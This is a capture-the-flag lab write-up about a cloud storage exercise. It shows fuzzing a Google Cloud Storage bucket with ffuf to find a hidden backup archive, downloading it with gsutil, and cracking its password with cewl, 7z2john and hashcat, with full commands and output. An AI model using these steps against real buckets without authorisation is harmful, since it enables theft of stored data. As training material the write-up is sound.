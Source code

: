 ```yaml
---
title: Reveal Hidden Files in Google Storage 
description: Reveal Hidden Files in Google Storage 
image:
  path: gcp.png
categories:
- Pwned Labs
- GCP
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/gcp/
tags:
- pwnedlabs
- gcp
- cloud
---
```

# Scenario
Gigantic Retail are a Fortune 50 company and therefore have a target on their back. Conscious that threat actors will be probing their infrastructure, they have provisionally engaged your team to assess the security of their on-premise and cloud environment. Your mission is to demonstrate impact and show them the value of retaining our services in the long-term.

# Walkthrough
We are given url, which redirects to website with static content

![](reveal-hidden-files-in-google-storage-1.png)


If we view source code, we see the link to `https://storage.googleapis.com/it-storage-bucket`, which is [Google Storage Bucket](https://cloud.google.com/storage/docs/buckets)

![](reveal-hidden-files-in-google-storage-2.png)


The subdomain `storage.googleapis.com` is used by [Google Storage service](https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/gcp-services/gcp-storage-enum.html#enumeration), while `it-storage-bucket` is bucket name. 

Let's use Google Cloud CLI and check the bucket (create some google account)
```
└─$ gcloud auth login  
```

We can try listing bucket contents, but we receive don't have access. 
```
└─$ gcloud storage buckets list gs://it-storage-bucket/
ERROR: (gcloud.storage.buckets.list) [<REDACTED>] does not have permission to access b instance [it-storage-bucket] (or it may not exist): <REDACTED> does not have storage.buckets.get access to the Google Cloud Storage bucket. Permission 'storage.buckets.get' denied on resource (or it may not exist). This command is authenticated as <REDACTED> which is the active account specified by the [core/account] property.               
```
```
└─$ gsutil ls gs://it-storage-bucket/
AccessDeniedException: 403 <REDACTED> does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).     
```

We check metadata of the `index.html` 
```
└─$ gsutil stat gs://it-storage-bucket/index.html
gs://it-storage-bucket/index.html:
    Creation time:          Tue, 26 Dec 2023 17:16:02 GMT
    Update time:            Tue, 26 Dec 2023 20:16:06 GMT
    Storage class:          STANDARD
    Content-Length:         11407
    Content-Type:           text/html
    Hash (crc32c):          NQiHAw==
    Hash (md5):             rIHCYQzSUEHllo04PfXd0w==
    ETag:                   CMTu57HNrYMDEAI=
    Generation:             1703610962016068
    Metageneration:         2

```

We can't browse the bucket contents directly (unless some object URLs are exposed via the website), but we can fuzz the endpoint for potential files, directories etc. (since Cloud Storage relies on names to identify buckets and objects). 

We can start fuzzing with [xajkep's wordlist](https://github.com/xajkep/wordlists) to enumerate for common backup filenames.

```
└─$ ffuf -w /usr/share/xajkep-wordlists/discovery/backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /usr/share/xajkep-wordlists/discovery/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 499ms]

```

We find `backup.7z` archive, let's download it using `gsutil`
```
└─$ gsutil cp gs://it-storage-bucket/backup.7z .
Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]                                                
Operation completed over 1 objects/21.6 KiB.  
```

The archive is password protected
```
└─$ 7z x backup.7z 

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=en_US.UTF-8 Threads:32 OPEN_MAX:65535

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
```

We can generate custom wordlist using `cewl` by spidering a targets website and collecting unique words.
```
cewl https://careers.gigantic-retail.com/index.html > wordlist.txt
```

Now we need to extract the hash via `7z2john`
```
└─$ 7z2john backup.7z > backup.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
    
```

Next, we use hashcat to crack the hash. Before running the hashcat, remove `<FILENAME>:` portion from the hash, since `7z2john` saves it in the following format `<FILENAME>:<HASH>`.
```
└─$ hashcat -m 11600 backup.hash wordlist.txt
hashcat (v6.2.6) starting
<SNIP>
$7z$2$19$0$$8$1090375a5c67675f0000000000000000$3425971665$<SNIP>022ff80c9590343e1a91b13db$54160$08:<REDACTED>
<SNIP>
```

Password works, now we can access archive's content
```
└─$ ls -lha         
total 140K
drwxrwxr-x 2 kali kali 4.0K Aug  8 01:08 .
drwxrwxr-x 5 kali kali 4.0K Jun 22 00:35 ..
-rw-rw-r-- 1 kali kali  22K Aug  8 00:59 backup.7z
-rw------- 1 kali kali  53K Dec 27  2023 customers-credit-review.csv
-rw-r--r-- 1 kali kali   33 Dec 27  2023 flag.txt
```
```
└─$ cat customers-credit-review.csv 
first_name,last_name,address,city,county,state,zip,phone1,phone2,email
James,Butt,6649 N Blue Gum St,New Orleans,Orleans,LA,70116,504-621-8927,504-845-1427,jbutt@gmail.com
Josephine,Darakjy,4 B Blue Ridge Blvd,Brighton,Livingston,MI,48116,810-292-9388,810-374-9840,josephine_darakjy@darakjy.org
Art,Venere,8 W Cerritos Ave #54,Bridgeport,Gloucester,NJ,8014,856-636-8749,856-264-4130,art@venere.org
Lenna,Paprocki,639 Main St,Anchorage,Anchorage,AK,99501,907-385-4412,907-921-2010,lpaprocki@hotmail.com
<SNIP>
```